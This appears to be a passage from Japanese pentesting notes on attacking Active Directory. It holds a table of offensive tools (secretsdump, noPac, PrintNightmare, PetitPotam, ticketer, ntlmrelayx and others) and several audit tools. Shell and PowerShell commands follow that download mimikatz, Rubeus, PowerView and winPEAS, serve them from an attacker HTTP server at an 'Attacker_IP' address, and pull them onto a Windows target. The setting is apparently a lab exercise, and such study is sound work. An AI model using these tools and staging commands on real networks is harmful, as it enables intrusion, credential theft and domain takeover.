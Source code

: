 | **secretsdump.py**                 | リモートホストからSAM・LSAシークレットをダンプ。                                                                                                                                          |
| **evil-winrm**                     | WinRMプロトコル経由で対話型シェルを取得するツール。                                                                                                                                         |
| **mssqlclient.py**                 | MSSQLデータベースと対話可能なImpacket製ツール。                                                                                                                                       |
| **noPac.py**                       | CVE-2021-42278および42287を利用したドメインユーザー→DAの昇格エクスプロイト。                                                                                                                    |
| **rpcdump.py**                     | RPCエンドポイントのマッピング情報を取得するImpacketツール。                                                                                                                                  |
| **CVE-2021-1675.py**               | PrintNightmare脆弱性（PoCスクリプト）。                                                                                                                                         |
| **ntlmrelayx.py**                  | SMBリレー攻撃を行うImpacketツール。                                                                                                                                              |
| **PetitPotam.py**                  | CVE-2021-36942を利用し、Windowsホストに別ホストへの認証を強制させるPoC。                                                                                                                     |
| **gettgtpkinit.py / getnthash.py** | Kerberos TGT・PACを操作し、NTハッシュの取得を試みるツール。                                                                                                                               |
| **adidnsdump**                     | ドメインからDNSレコードを列挙・ダンプするツール。ゾーントランスファと類似。                                                                                                                              |
| **gpp-decrypt**                    | グループポリシー設定ファイルからユーザー名・パスワードを抽出。                                                                                                                                      |
| **GetNPUsers.py**                  | ‘Kerberos事前認証不要’ 設定のユーザーを狙ったASREPRoasting攻撃用ツール。                                                                                                                     |
| **lookupsid.py**                   | SIDブルートフォースツール。                                                                                                                                                      |
| **ticketer.py**                    | TGT/TGSチケットの作成・カスタマイズ。ゴールデンチケットや信頼関係攻撃に利用可。                                                                                                                          |
| **raiseChild.py**                  | 子ドメイン→親ドメインへの権限昇格を自動化するImpacketツール。                                                                                                                                  |
| **Active Directory Explorer**      | ADのオブジェクト構造を閲覧・比較するGUIツール。スナップショット保存やオフライン分析にも対応。                                                                                                                    |
| **PingCastle**                     | AD環境のセキュリティ診断ツール。リスク評価と成熟度フレームワーク（CMMIベース）に基づいて分析。                                                                                                                   |
| **Group3r**                        | グループポリシーオブジェクト（GPO）のセキュリティ設定ミスを監査・発見するツール。                                                                                                                           |
| **ADRecon**                        | AD環境から多様なデータを収集し、Excelレポートとして出力。セキュリティの全体像を把握可能。                                                                                                                     |

# Windows上で使うツールを全部突っ込む
Linux上
```sh
# PowerView.ps1
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Recon/PowerView.ps1
# mimikatz
wget -O mimikatz.zip https://github.com/ParrotSec/mimikatz/archive/refs/heads/master.zip
# Rubeus
wget -O rubeus.zip https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/archive/refs/heads/master.zip
wget https://github.com/peass-ng/PEASS-ng/releases/download/20250518-5781f7e5/winPEASx64.exe
# HTTPサーバー立てる
python3 -m http.server 8080
```

Linux上
```sh
Attacker_IP="10.10.14.205"
wget http://$Attacker_IP:8080/PowerView.ps1
# mimikatz
wget http://$Attacker_IP:8080/mimikatz.zip
# Rubeus
wget http://$Attacker_IP:8080/rubeus.zip
```
Windows上
```Powershell
$Attacker_IP="10.10.14.205"
# PowerView.ps1
Invoke-WebRequest -Uri "http://$Attacker_IP:8080/PowerView.ps1" -OutFile "PowerView.ps1"
# mimikatz.zip
```